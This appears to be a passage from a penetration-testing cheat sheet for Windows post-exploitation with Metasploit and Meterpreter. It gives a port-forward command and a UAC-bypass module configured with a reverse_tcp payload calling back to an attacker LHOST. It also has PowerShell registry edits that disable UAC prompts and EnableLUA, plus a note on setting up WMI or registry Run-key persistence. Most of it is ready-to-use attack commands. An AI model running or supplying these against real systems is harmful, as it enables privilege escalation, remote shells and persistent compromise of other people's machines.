 ### **Create port forward**

```
Portfwd add -l <LOCAL PORT> -p <REMOTE PORT> -r <REMOTE HOST>
```

### UAC Escalation

```
use exploit windows/local/bypassuac_windows_store_reg
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.10.10
set LPORT 8080
set SESSION 2
run
```

### Change UAC to not Notify

* Need to be admin

```
#check registry key first 
Get-ItemProperty -Path REGISTRY::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
#look for:
ConsentPromptBehaviorAdmin
ConsentPromptBehaviorUser
#Change if it is set to 1 or 2
Set-ItemProperty -Path REGISTRY::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System -Name ConsentPromptBehaviorAdmin -Value 0
```

### Disable LUA

* EnableLUA specifies whether Windows User Account Controls (UAC) notifies the user when programs try to make changes to the computer. UAC was formerly known as Limited User Account (LUA).

```
#check registry key first 
Get-ItemProperty -Path REGISTRY::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
#look for:
EnableLUA   1
#now set to 0 
Set-ItemProperty -Path REGISTRY::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System -Name EnableLUA -Value 0
#will need to restart before changes are applied, thus ensure WMI Event Subscription Persistance or Registry is set up first
```

### Persistance Modules

* Registry Run Key
